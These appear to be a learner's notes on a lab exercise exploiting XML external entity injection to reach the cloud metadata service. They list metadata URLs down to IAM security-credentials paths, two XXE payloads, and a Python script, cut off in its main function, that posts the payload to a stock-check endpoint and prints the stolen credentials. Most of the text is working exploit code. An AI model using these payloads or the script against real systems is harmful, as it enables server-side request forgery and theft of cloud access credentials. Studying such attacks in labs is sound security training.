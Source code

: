 Analysis:

- following xml error we will append directories in our server request 
http://169.254.169.254/
http://169.254.169.254/latest
http://169.254.169.254/latest/meta-data
http://169.254.169.254/latest/meta-data/iam
http://169.254.169.254/latest/meta-data/iam/security-credentials
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin

```
?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY nbyte SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
	<productId>
		&nbyte;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

```
?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY paein SYSTEM "http://169.254.169.254/latest.../.../admin"> ]>
<stockCheck>
	<productId>
		&paein;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

![[Pasted image 20240926201314.png]]

- Python script
```
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_xxe(s, url):

    print("(+) Exploiting XXE Injection...")
    stock_url = url + "/product/stock"
    data_stock = '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>'
    r = s.post(stock_url, data=data_stock, verify=False, proxies=proxies)
    print("(+) The following is the content of the secret file: ")
    print(r.text)

def main():
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    s = requests.Session()
```